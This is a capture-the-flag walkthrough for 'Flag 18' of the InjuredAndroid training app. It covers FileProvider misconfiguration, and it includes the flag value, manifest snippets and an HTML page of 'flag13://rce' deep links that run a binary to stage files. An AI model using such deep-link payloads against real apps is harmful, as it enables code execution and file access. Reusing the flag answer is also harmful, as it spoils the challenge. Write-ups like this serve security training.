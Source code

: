 
### Flag 18 - 034d361a5942e67697d17534f37ed5a9

#### Recon

First lets take a look at the File Provider in `AndroidManifest.xml`.

```xml

 <activity
            android:name=".FlagEighteenActivity"
            android:exported="true"
            android:label="@string/title_activity_flag_eighteen"
            android:theme="@style/AppTheme.NoActionBar" />

        <provider
            android:name="androidx.core.content.FileProvider"
            android:authorities="b3nac.injuredandroid.fileprovider"
            android:exported="false"
            android:grantUriPermissions="true">
            <meta-data
                android:name="android.support.FILE_PROVIDER_PATHS"
                android:resource="@xml/file_paths" />
        </provider>

```

What we are going to need is the `android:authorities` specified for our proof of concept. It's important to note that `android:grantUriPermissions="true"` is set to true. This means that an exported activity can interact with this File Provider via intents that specify the correct uri according to `file_paths.xml`.

```xml
<?xml version ="1.0" encoding ="utf-8"?>
<paths xmlns:android="http://schemas.android.com/apk/res/android">
    <files-path name="files" path="/" />
</paths>
```

The specification of `files-path` equals `/data/data/b3nac.injuredandroid/files`.

#### Using another activity to move files to the correct directory

The Deep link ACE activity or flag 13 will move the test file needed to complete this challenge. Using any of these deep links should work.


```html
<html>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testOne">Test one!</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testTwo">Test two!</p>
<p><a href="flag13://rce?binary=narnia.x86_64&param=testThree">Test three!</p>
<p><a href="flag13://rce?combined=Treasure_Planet">OH SNAP!</p>
</html> 
```

